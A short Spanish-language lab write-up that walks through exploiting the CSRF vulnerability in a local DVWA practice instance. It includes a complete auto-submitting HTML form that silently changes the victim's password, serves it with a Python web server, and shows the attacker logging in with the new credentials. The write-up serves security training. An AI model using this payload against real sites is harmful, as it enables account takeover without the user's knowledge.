 En este ejercicio, vamos a realizar la ejecución de un cambio automatico de la contraseña del usuario. Para ello vamos exponer un archivo html en nuestro servidor python para que actue sobre nuestra maquina DVWA cuando se acceda al contenido del mismo. Para ello vamos a indicar el siguiente contenido en nuestro archivo html:

```html

<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/vulnerabilities/csrf/">
      <input type="hidden" name="password&#95;new" value="pass" />
      <input type="hidden" name="password&#95;conf" value="pass" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Y ejecutamos nuestro servidor python desde el directorio donde tenemos alojado nuestro archivo:

    python3 -m http.server

Y tras acceder al mismo desde el navegador, podemos observar que la contraseña por defecto ha cambiado:

![Login Fail](./images/loginfail.png)

Y tras acceder con las credenciales nuevas, obtenemos acceso a nuestro panel:

![Imagen Dentro](./images/login.png)


